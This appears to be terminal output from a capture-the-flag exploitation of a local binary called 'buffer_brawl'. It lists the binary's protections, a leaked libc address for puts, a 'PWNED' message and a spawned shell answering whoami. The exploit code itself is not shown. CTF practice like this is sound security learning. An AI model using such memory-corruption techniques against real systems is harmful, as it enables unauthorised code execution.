 ``` 
python3 exploit.py
[*] '/home/kalcast/Descargas/buffer_brawl'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    FORTIFY:    Enabled
[+] Starting local process '/home/kalcast/Descargas/buffer_brawl': pid 17873
[*] leak_got("puts")=7fb48d5c8580
[+] PWNED
[*] Switching to interactive mode

You threw an uppercut! -3 to the stack's life points.

The stack got dizzy! Now it's your time to win!
Enter your move: 
$ whoami
kalcast
$  
```

